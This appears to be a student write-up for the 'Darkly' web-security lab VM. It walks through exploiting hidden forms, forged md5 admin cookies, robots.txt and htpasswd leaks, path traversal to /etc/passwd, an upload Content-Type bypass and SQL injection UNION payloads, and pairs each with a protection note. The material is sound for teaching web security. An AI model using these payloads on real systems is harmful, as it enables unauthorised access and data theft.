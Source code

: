 #+TITLE: Write Up for Darkly project

* Prerequesite

Lauch the VM and access to the IP indicated.

* hidden_attribute
** Vulnerability
On the page http://192.168.56.105/index.php?page=signin there is link to recover password and on this page there is an hidden form.
1. insepect the page
2. fill the form
3. click on the submit button
** Protection
 Don't use hidden tag in html for sensitive information !

* csrf_cookie
** Vulnerability
The website gives us a cookie in order to check if we are admin or not. This cookie is a simple md5 hash which means 'false'. We can replace it by the corresping hash for 'true'.
1. ~hashid 68934a3e9455fa72420237eb05902327~
2. ~echo -n "true" | md5~
3. replace cookie with the result of the echo command.
4. reload the page
** Protection
A boolean is not enough, there must be a complex system of identification by user in the backend. (and don't use explicit sentences as 'I_am_admin'). It's also important to use the 'SameSite' attribute for cookies.
* informations_leaks
** Vulnerability
By doing some fuzzing on the website, we can found the file *robots.txt* which reveals informations of the content of the site.
On the page http://192.168.56.105/whatever/ there is a *htpasswd* file.
1. ~ffuf -w ./informations_leaks/ressources/common.txt:FUZZ -u "http://192.168.56.105/FUZZ"~
2. go to http://192.168.56.105/robots.txt
3. go to http://192.168.56.105/whatever/
4. ~wget http://192.168.56.105/whatever/htpasswd~
5. use https://crackstation.net/ to decode the hash
6. go to http://192.168.56.105/admin/
7. log-in with root:dragon
** Protection
Don't store sensitive informations in the *robots.txt* file, assume that attackers will pay close attention to any locations identified in the file.
* insecure_path
** Vulnerability
 On the page http://192.168.56.105/.hidden/ found by the *robots.txt* there is some kind of labyrinth to protect the flag. But it stills vulnerable to crawling.
 1. cd ./insecure_path/ressources
 2. ~bash crawl.sh "http://192.168.56.105/.hidden/" url_1 url_2 url_3~
 3. ~grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt~
** Protection
Don't hide important informations like that. Use authentication or *htaccess* file to protect the folder.
* redirection
** Vulnerability
In the footer of the main page, the website has redirection of social media. We can change these redirection with anything we want and potentially to malicious pages.
1. change "site=facebook" by "site=google"
2. click on the link
** Protection
It's possible to check the redirection with some arrays, so it would not be possible to redirect on anything other that we predefined.
* idor_page
** Vulnerability
Indirect object references is a vulnerability that arises when an application uses user-supplied input to access objects directly. In whatever page on the site there is an attribute *page* in the url, we can change this attribute to access to anything on the server.
1. change http://192.168.56.105/index.php?page=sigin by
http://192.168.56.105/index.php?page=../../../../../../../etc/passwd
** Protection
Use an array of valid url, the attacker will have access only to these arrays.
* idor_form
** Vulnerability
On the page http://192.168.56.105/index.php?page=survey there is a survey where we vote for people. By doing a vote, a POST request is made, we can change the values of this request.
1. press F12
2. vote for a person
3. go to the 'network' tab
4. edit the request and change the value by 42
5. send a look at the response
** Proection
Sanitize the input of the form in the backend and not only in the frontend !

* insecure_upload
** Vulnerability
It's possible to upload an image on the page http://192.168.56.105/?page=upload . The website only check the header of the request for the uploaded file.
1. press F12
2. upload a .php file
3. change the request, *Content-Type: text/php* by *Content-Type: images/jpeg*
4. send and look at the response
** Protection
Looking at the header is not enough.
* sql_injection
** Vulnerability
On the page http://192.168.56.105/index.php?page=member we can search users by their 'id'. If we enter a letter for example, an error is displayed which reveals that it reads sql commands.

1. 1 OR 1
2. 5 UNION SELECT database(),2
3. 5 UNION SELECT table_schema,table_name FROM information_schema.columns
4. 5 UNION SELECT table_name,column_name FROM information_schema.columns
5. 5 UNION SELECT user_id,planet FROM users
6. 5 UNION SELECT user_id,countersign FROM users
7. 5 UNION SELECT user_id,commentaire FROM users
8. ~echo -n 'fortytwo' | sha2~
** Protection
Sanitize the input of form and use parametrized queries.
Parameterized queries are a means of pre-compiling an SQL statement so that you can then supply the parameters in order for the statement to be executed. This method makes it possible for the database to recognize the code and distinguish it from input data.
